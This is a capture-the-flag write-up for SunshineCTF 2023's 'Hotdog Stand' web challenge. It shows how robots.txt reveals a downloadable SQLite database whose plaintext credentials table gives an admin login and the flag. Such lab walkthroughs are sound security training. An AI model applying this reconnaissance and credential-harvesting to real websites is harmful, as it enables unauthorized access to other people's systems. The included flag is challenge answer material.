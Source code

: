 # SunshineCTF 2023

## Hotdog Stand

> In the not-so-distant future, robots have taken over the fast-food industry. Infiltrate the robot hotdog stand to find out whatjobs still remain.
> 
>  Author: N/A

Tags: _web_

## Solution
We again get a small web application. At the main page we find a login form where robots can enter their `Robot ID` and `Access Code`. Since robots are the main theme of this ctf, we check `/robots.txt`.

```
User-agent: * Disallow: /configs/ Disallow: /backups/ Disallow: /hotdog-database/
```

The route `hotdog-database` allows us to download the sqlite database for further inspection.

```bash
$ sqlite3 robot_data.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
credentials       customer_reviews  menu_items        robot_logs
sqlite> select * from credentials;
1|hotdogstand|slicedpicklesandonions|admin
```

Using `hotdogstand:slicedpicklesandonions` as login credentials gives us the flag.

Flag `sun{5l1c3d_p1cKl35_4nd_0N10N2}`